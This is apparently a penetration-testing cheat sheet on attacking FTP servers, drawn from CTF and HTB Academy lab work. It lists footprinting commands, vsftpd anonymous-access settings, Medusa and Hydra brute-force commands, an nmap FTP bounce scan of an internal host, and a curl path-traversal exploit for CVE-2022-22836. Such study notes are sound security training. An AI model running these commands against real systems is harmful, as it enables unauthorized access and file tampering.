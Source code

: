 # FTP

> *Source CTF and HTB Academy*

- Usually on port 21

The File Transfer Protocol (FTP) is one of the oldest protocols on the Internet. The FTP runs within the application layer of the TCP/IP protocol stack. Thus, it is on the same layer as HTTP or POP. These protocols also work with the support of browsers or email clients to perform their services. There are also special FTP programs for the File Transfer Protocol.

## Footprinting

- `find / -type f -name ftp* 2>/dev/null | grep scripts` find all the nmap scripts for ftp and choose the ones you wish to use
- `sudo nmap -sV -p21 -sC -A 10.129.14.136`
- `nc -nv 10.129.14.136 21`
- `telnet 10.129.14.136 21`
- `openssl s_client -connect 10.129.14.136:21 -starttls ftp`

## What to try

- Check if anonymous FTP is enabled, if so check if you can downloads files. If so you can RCE.  
Check out [Hackthebox Devel's writeup](../writeups/HTB-Devel.md) to have an example of this.

- If you do not have write access you could still find interesting and useful files like passwords or else.

## vsftpd

One of the most used FTP servers on Linux-based distributions is [vsFTPd](https://security.appspot.com/vsftpd.html).

- `sudo apt install vsftpd` install it
- `cat /etc/vsftpd.conf | grep -v "#"` interesting config to check
- `cat /etc/ftpusers` file used to deny certain users access to the FTP service

### Config for anonymous login

|Setting|Description|
|-------|-----------|
|anonymous_enable=YES|Allowing anonymous login?|
|anon_upload_enable=YES|Allowing anonymous to upload files?|
|anon_mkdir_write_enable=YES|Allowing anonymous to create new directories?|
|no_anon_password=YES|Do not ask anonymous for password?|
|anon_root=/home/username/ftp|Directory for anonymous.|
|write_enable=YES|Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE?|

### Anonymous login

- `ftp <TARGET-IP> <port>` you will need to specify the port in case it is not port 21 if it is 21 you do not need to specify

## Download ftp files

- `wget -m --no-passive ftp://username:password@IP:2121 --starttls ftp`
- `wget ftp://username:password@ftp_server_address/path/to/file`

## lftp

- [lftp man page](https://lftp.yar.ru/lftp-man.html)
- `sudo apt install lftp`
- `lftp -p 2121 -u anonymous, 10.10.10.10`

## Interesting commands

- `status` will show configurations
- `debug`
- `trace`
- `ls -R` list file recursively
- `get filename` download a file
- `put filename` upload a file
- `wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136` Downaload all available files
  - `tree .` inspect all files downloaded
- Upload a file
  - `touch file` create a file
  - `put file` put it in the ftp server
- `PASV` enter [passive mode](https://support.solarwinds.com/SuccessCenter/s/article/PASV-FTP-command?language=en_US#:~:text=U%20Gateway%2015.1-,The%20PASV%20command%20tells%20the%20server%20to%20enter%20a%20passive,data%20port%20on%20the%20server.)
- Do not forget `ls -al` (to see hidden files)

|Setting|Description|
|-------|-----------|
|dirmessage_enable=YES|Show a message when they first enter a new directory?|
|chown_uploads=YES|Change ownership of anonymously uploaded files?|
|chown_username=username|User who is given ownership of anonymously uploaded files.|
|local_enable=YES|Enable local users to login?|
|chroot_local_user=YES|Place local users into their home directory?|
|chroot_list_enable=YES|Use a list of local users that will be placed in their home directory?|
|hide_ids=YES|All user and group information in directory listings will be displayed as "ftp".|
|ls_recurse_enable=YES|Allows the use of recurse listings.|

## TFTP

Trivial File Transfer Protocol (TFTP) is simpler than FTP and performs file transfers between client and server processes. However, it does not provide user authentication and other valuable features supported by FTP. In addition, while FTP uses TCP, TFTP uses UDP, making it an unreliable protocol and causing it to use UDP-assisted application layer recovery.

|Commands|Description|
|--------|-----------|
|connect|Sets the remote host, and optionally the port, for file transfers.|
|get|Transfers a file or set of files from the remote host to the local host.|
|put|Transfers a file or set of files from the local host onto the remote host.|
|quit|Exits tftp.|
|status|Shows the current status of tftp, including the current transfer mode (ascii or binary), connection status, time-out value, and so on.|
|verbose|Turns verbose mode, which displays additional information during file transfer, on or off.|

## Bruteforcing

- [Medusa](https://github.com/jmk-foofus/medusa)
```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
medusa -U users2.list -P pws.list -h 10.129.120.4 -M ftp -n 2121
```
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
```bash
hydra -l user -p password ftp://10.10.10.10
hydra -L user.list -P password.list ftp://10.10.10.10
```

## FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a PORT command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server FTP_DMZ exposed to the internet. Another device within the same network, Internal_DMZ, is not exposed to the internet. We can use the connection to the FTP_DMZ server to scan Internal_DMZ using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

![FTP Bounce attack](../.res/2024-11-02-10-35-31.png)

> Source [GeeksforGeeks](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)

The Nmap -b flag can be used to perform an FTP bounce attack:
```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

## CVEs on FTP

- [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)  
  This vulnerability is for an FTP service that does not correctly process the HTTP PUT request and leads to an authenticated directory/path traversal, and arbitrary file write vulnerability. This vulnerability allows us to write files outside the directory to which the service has access.  
  Exploitation 
  ```bash
  curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
  ```

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp" %} Pentesting FTP - Hacktricks {% endembed %}  
{% embed url="https://www.smartfile.com/blog/the-ultimate-ftp-commands-list/" %} The Ultimate FTP Commands list {% endembed %}  
{% embed url="https://en.wikipedia.org/wiki/List_of_FTP_server_return_codes" %} List of FTP server return codes {% endembed %}  
{% embed url="https://academy.hackthebox.com/" %} Hackthebox Academy {% endembed %}  
